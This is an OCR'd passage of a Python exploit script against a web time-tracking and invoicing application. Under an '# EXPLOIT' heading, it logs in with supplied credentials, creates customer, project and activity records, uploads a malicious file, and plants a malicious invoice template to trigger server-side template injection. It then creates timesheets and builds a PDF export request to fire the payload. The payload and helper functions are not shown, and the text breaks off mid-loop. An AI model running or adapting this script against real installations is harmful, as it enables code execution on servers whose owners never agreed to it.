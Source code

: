 csrf, _, _, _, _ = get_csrf("/login", session) 
# login("admin", "password", csrf, session)
login(sys.argv[2],sys.argv[3],csrf,session)
# create new customer

get_customer_token, _, _, _, _ = get_csrf("/admin/customer/create", session)  
customer_name = generate()
create_customer(get_customer_token, customer_name, session)
# create new project with customer_name

get_project_token, customer_id, _, _, _ = get_csrf("/admin/project/create", session)  
project_name = generate()
create_project(get_project_token, project_name, customer_id, session)

# create new activity 
get_activity_token, project_id, _, _, _ = get_csrf("/admin/activity/create", session)
activity_name = generate()
create_activity(get_activity_token, activity_name, project_id, session)

# EXPLOIT
######################

# upload malicious file
upload_token, _, _, _, _ = get_csrf("/invoice/document_upload", session)
upload_malicious_document(upload_token, session)

# create malicious template to trigger the SSTI
get_template_token, _, _, _, _ = get_csrf("/invoice/template/create", session)
template = generate()
temp_id = create_malicious_template(get_template_token, template, session)

# create a timesheet with project_id and activity_id
activity_customer_list = get_csrf("/timesheet/create", session)[4]  # get the activity_customer_list from get_csrf function

print(f"[+] Constructing renderer URLs..")
# iterate through all relative project_ids and customer_id for exploit stabiliy
for activity_id, customer_id in activity_customer_list:
    csrf = get_csrf("/timesheet/create", session)[0]  # Update CSRF token for each iteration
    print(f"[+] Creating timesheets with: Activity ID: {activity_id}, Customer ID: {customer_id}")
    create_timesheet(csrf, activity_id, customer_id, session)
    postData = {
        "searchTerm": "",
        "daterange": "",
        "state": "1",
        "billable": "0",
        "exported": "1",
        "orderBy": "begin",
        "order": "DESC",
        "exporter": "pdf"
    }